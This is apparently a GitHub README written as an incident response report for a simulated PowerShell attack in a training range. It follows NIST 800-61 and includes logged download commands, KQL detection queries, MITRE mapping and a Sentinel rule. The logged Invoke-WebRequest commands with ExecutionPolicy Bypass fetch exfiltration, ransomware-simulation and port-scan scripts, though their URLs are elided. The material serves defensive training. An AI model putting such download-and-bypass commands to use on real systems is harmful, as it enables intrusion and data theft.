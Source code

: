 # PowerShell-Suspicious-Web-Request-


# 🛡️ Incident Response Report – Haider Naqvi  
**Scenario 2: PowerShell Suspicious Web Request**  
**Framework:** NIST 800-61 (Computer Security Incident Handling Lifecycle)

---

## 📌 Overview
This incident involved a suspicious PowerShell command used to download potentially malicious scripts on a corporate endpoint. This type of behavior is consistent with initial stages of an attack where an actor attempts to transfer tools to gain persistence, escalate privileges, or exfiltrate data.

---

## 🧠 Step 1: Detection and Analysis

```
Device Involved: windows-target-1  
User: 1 user (confirmed)  
Indicator: PowerShell use of 'Invoke-WebRequest' with 'ExecutionPolicy Bypass'  
```

### 🧪 Suspicious PowerShell Commands Logged

```
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1

powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../eicar.ps1 -OutFile C:\programdata\eicar.ps1

powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1

powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../portscan.ps1 -OutFile C:\programdata\portscan.ps1
```

---

## 🧾 User Feedback

```
User stated they downloaded a free tool; a black screen appeared for a second and then disappeared.
```

---

### 🔍 KQL Query – Detecting PowerShell Web Request Activity

```kql
let TargetDevice = "windows-target-1";
DeviceProcessEvents
| where DeviceName == TargetDevice
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-webrequest"
```

### 📁 KQL Query – Confirm Script Execution on Target

```kql
let TargetHostname = "windows-target-1";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
```

---

### 🧬 Reverse Engineering – Script Intent Summary

```
exfiltratedata.ps1 → Simulated data exfiltration to external source  
eicar.ps1 → EICAR antivirus test file  
pwncrypt.ps1 → Encrypts files (ransomware simulation)  
portscan.ps1 → Network port scanner  
```

---

## 🛡️ Step 2: Containment, Eradication, and Recovery

```
✔ Isolated the machine using Microsoft Defender for Endpoint (MDE)  
✔ Ran a full anti-malware scan  
✔ Verified no persistence or lateral movement  
✔ Removed machine from isolation and restored operations  
```

---

## 📘 Step 3: Post-Incident Activity

```
📌 Required user to complete enhanced cybersecurity training  
📌 Upgraded KnowBe4 training program and increased campaign frequency  
📌 Began enforcing PowerShell execution restrictions for non-admin users  
```

---

## 🧩 MITRE ATT&CK Mapping

```
T1059.001 – PowerShell (scripting abuse)  
T1105 – Ingress Tool Transfer (external download)  
T1071.001 – Web Protocols (HTTP/HTTPS-based download)  
T1562.001 – Disable or Modify Tools: ExecutionPolicy Bypass  
```

---

## 🔧 Microsoft Sentinel Analytics Rule Setup

### 📌 General Rule Configuration

![Sentinel Rule - General Tab](/assets/screenshots/Screenshot_28-5-2025_221759_portal.azure.com.jpeg)

```
Rule Name: Haider – Powershell Suspicious Web Request  
Severity: Medium  
MITRE ATT&CK: 7 techniques selected  
Status: Enabled  
Description: Sometimes when a bad actor has access to a system, they will attempt to download malicious payloads or tools directly from the internet to expand their control or establish persistence...
```

---

### 📊 Rule Logic and Query Scheduling

![Sentinel Rule - Query Tab](/assets/screenshots/Screenshot_28-5-2025_221851_portal.azure.com.jpeg)

```
Query Logic:
let TargetDevice = "windows-target-1";
DeviceProcessEvents
| where DeviceName == TargetDevice
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-webrequest"

Schedule:
Run every: 4 hours  
Lookback period: 24 hours  
Start: Automatically  
```

---

## ✅ Final Notes

```
This incident emphasizes the importance of PowerShell monitoring, user awareness, and proactive alert tuning.  
All scripts involved were simulated for training purposes and handled within a safe cyber range.
```

---

*Maintained by: Haider Naqvi*  
*Cybersecurity Analyst | Incident Response | Microsoft Sentinel | Defender for Endpoint*
